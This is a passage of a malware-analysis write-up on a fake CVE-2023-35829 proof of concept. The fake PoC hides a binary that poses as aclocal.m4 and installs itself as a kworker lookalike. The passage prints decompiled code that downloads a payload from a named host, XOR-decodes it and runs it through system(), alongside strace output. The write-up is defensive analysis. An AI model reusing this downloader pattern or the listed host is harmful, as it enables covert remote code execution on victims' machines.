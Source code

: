 Should there already be an instance of kworker running, a "file lock" file is generated by **FUN_00102d4a** under the path: `/tmp/.ICE-unix.pid` which is also is passed to the timestomp function.

A call to `fork` is made to create a child process, which if the return value is < 1, a _'do while'_ loop begins with a 2 minute sleep interval. After its sleep, **FUN_001025de** is called which is the main function for obtaining the next stage payload via cURL. 

First, the hardcoded URL is read from the .data section via **FUN_0010252e**: `hxxp://cunniloss[.]accesscam[.]org/hash[.]php` 

Following this, cURL is setup to send, with a callback for writing the received data. The disassembly below shows this, as well as the payload being XOR decoded using key **0x83**.

```cpp
  dl_data = malloc(1);
  local_50 = 0;
  local_14 = 0x27;
  req_url = FUN_0010252e(&PTR_DAT_00106180,0x27);
  curl_global_init(3);
  curl_handle = curl_easy_init();
  CURLOPT_URL = 0x2712;
  curl_easy_setopt(curl_handle,0x2712,req_url);
  CURLOPT_WRITEFUNCTION = 0x4e2b;
  curl_easy_setopt(curl_handle,0x4e2b,FUN_00102467);
  CURLOPT_FILE = 0x2711;
  curl_easy_setopt(curl_handle,0x2711,&dl_data);
  local_38 = curl_easy_perform(curl_handle);
  if (local_50 < 2) {
    uVar1 = 0;
  }
  else {
    if (local_38 == 0) {
      local_40 = malloc(local_50 + 0x40);
      *(local_50 + dl_data) = 0;
      for (local_10 = 0; local_10 < local_50; local_10 = local_10 + 1) {
                    /* xor key 0x83 */
        *(local_10 + dl_data) = DAT_00106170 ^ *(local_10 + dl_data); 
      }
```
The decoded data is then executed by with a call to `system()`.

### Dynamic Analysis

Since it had been a while from doing any Reversing, I decided to try and confirm my static analysis with some basic debugging, besides.. it's good practice anyway! As with any malware sample, it was detonated within a secure virtual environment. This section is mostly command output and screenshots with a comment as it is mostly clarifying what has been explained previously.

`strace`

Confirmed the checks for filename and copy/create of the malware, along with the change of permissions.

```
readlink("/proc/self/exe", "/home/remnux/working/CVE-2023-35"..., 1024) = 59
openat(AT_FDCWD, "/home/remnux/working/CVE-2023-35829-poc-main/src/aclocal.m4", O_RDONLY) = 3
openat(AT_FDCWD, "/home/remnux/.local/kworker", O_WRONLY|O_CREAT|O_TRUNC, 0666) = 4
fstat(3, {st_mode=S_IFREG|0755, st_size=23256, ...}) = 0
read(3, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\260\"\0\0\0\0\0\0"..., 4096) = 4096
fstat(4, {st_mode=S_IFREG|0664, st_size=0, ...}) = 0
read(3, "\0\0\0\0\0\0\0\0\240`\0\0\0\0\0\0\7\0\0\0\26\0\0\0\0\0\0\0\0\0\0\0"..., 4096) = 4096
write(4, "\177ELF\2\1\1\0\0\0\0\0\0\0\0\0\3\0>\0\1\0\0\0\260\"\0\0\0\0\0\0"..., 4096) = 4096
read(3, "H\203\354\10H\213\5\315?\0\0H\205\300t\2\377\320H\203\304\10\303\0\0\0\0\0\0\0\0\0"..., 4096) = 4096
write(4, "\0\0\0\0\0\0\0\0\240`\0\0\0\0\0\0\7\0\0\0\26\0\0\0\0\0\0\0\0\0\0\0"..., 4096) = 4096
read(3, "\0H\307E\250\0\0\0\0H\307E\260\0\0\0\0H\307E\270\0\0\0\0H\307E\300\0\0\0"..., 4096) = 4096
```

[^1]: https://github.com/ChriSanders22/CVE-2023-35829-poc (removed by Github)
[^2]: https://github.com/apkc/CVE-2023-35829-poc (still active at time of writing)
